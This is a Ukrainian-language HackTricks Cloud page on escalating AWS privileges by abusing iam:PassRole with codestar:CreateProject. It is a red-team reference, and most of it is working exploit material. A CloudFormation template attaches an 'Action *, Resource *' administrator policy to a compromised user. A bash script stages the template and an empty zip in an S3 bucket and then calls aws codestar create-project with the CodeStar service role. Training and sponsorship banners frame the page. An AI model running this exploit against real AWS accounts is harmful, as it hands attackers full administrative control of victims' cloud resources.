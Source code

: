 # iam:PassRole, codestar:CreateProject

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

З цими дозволами ви можете **зловживати роллю IAM codestar** для виконання **произвольних дій** через **шаблон cloudformation**.

Щоб це експлуатувати, вам потрібно створити **S3 бакет, який доступний** з атакованого облікового запису. Завантажте файл під назвою `toolchain.json`. Цей файл повинен містити **експлойт шаблону cloudformation**. Наступний може бути використаний для встановлення керованої політики для користувача під вашим контролем і **надання йому адміністративних прав**:

{% code title="toolchain.json" %}
```json
{
"Resources": {
"supercodestar": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"ManagedPolicyName": "CodeStar_supercodestar",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
]
},
"Users": [
"<compromised username>"
]
}
}
}
}
```
{% endcode %}

Також **завантажте** цей `порожній zip` файл до **бакету**:

{% file src="../../../../.gitbook/assets/empty.zip" %}

Пам'ятайте, що **бакет з обома файлами повинен бути доступний обліковому запису жертви**.

З обома завантаженими файлами ви тепер можете перейти до **експлуатації**, створюючи проект **codestar**:
```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"empty.zip\"
}
},
\"destination\": {
\"codeCommit\": {
\"name\": \"$PROJECT_NAME\"
}
}
}
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"toolchain.json\"
}
},
\"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME \
--source-code file://$SOURCE_CODE_PATH \
--toolchain file://$TOOLCHAIN_PATH
```
Цей експлойт базується на **Pacu експлойті цих привілеїв**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam__privesc_scan/main.py#L1997) На ньому ви можете знайти варіацію для створення адміністраторської керованої політики для ролі замість користувача.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
